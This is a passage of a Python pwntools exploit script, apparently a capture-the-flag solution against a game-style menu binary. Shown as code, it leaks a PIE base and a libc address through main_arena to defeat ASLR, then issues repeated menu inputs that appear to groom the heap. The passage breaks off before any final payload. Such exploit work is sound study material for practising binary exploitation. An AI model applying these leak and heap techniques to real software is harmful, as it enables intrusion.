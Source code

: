 ```python
            continue

        r.send(st[cnt])
        cnt += 1

    print('')
    return True

play_game('rrrrrrrkrkrkrk')

r.sendline('')
r.sendlineafter('Which notch on your belt will this victory go?', '0')
r.sendlineafter('What Name Shall you Remember this fighter by?', 'abcd')

r.sendlineafter('>', '8')
r.sendline('40')

r.recvuntil('Name to remember: ')
pie_base = u64(r.recv(6) + b'\x00\x00') - 94624
print(f'pie_base: {hex(pie_base)}')


r.sendlineafter('>', '7')
r.sendlineafter('3. Load Game\n> ', '1')
r.sendafter('Enter name: ', 'a'*14)
r.sendlineafter('Enter anger: ', '+')

r.sendlineafter('>', '4') # quit user menu
r.sendlineafter('>', '6')

r.recvuntil('Anger: ')
main_arena_96 = int(r.recvuntil(',').replace(b',', b'').decode('latin-1')) # main_arena + 96
libc_base = main_arena_96 - 0x3c4b78
print(f'main_arena+96 : {hex(main_arena_96)}')
print(f'libc_base : {hex(libc_base)}')

X = 0
# lift
for i in range(19 + X):
    r.sendlineafter('>', '1')

r.send('q')
r.recvuntil("9. QUIT (Don't be a &(^(^)")

for i in range(19):
    r.sendlineafter('>', '1')

r.send('q')
r.recvuntil("9. QUIT (Don't be a &(^(^)")

for i in range(24):
    r.sendlineafter('>', '1')

for i in range(39 - 24):
    r.sendlineafter('>', '3')

r.send('q')
r.recvuntil("9. QUIT (Don't be a &(^(^)")

for i in range(50):
    r.sendlineafter('>', '4')
    r.sendlineafter('>', '1')
    r.sendlineafter('>', '4')
```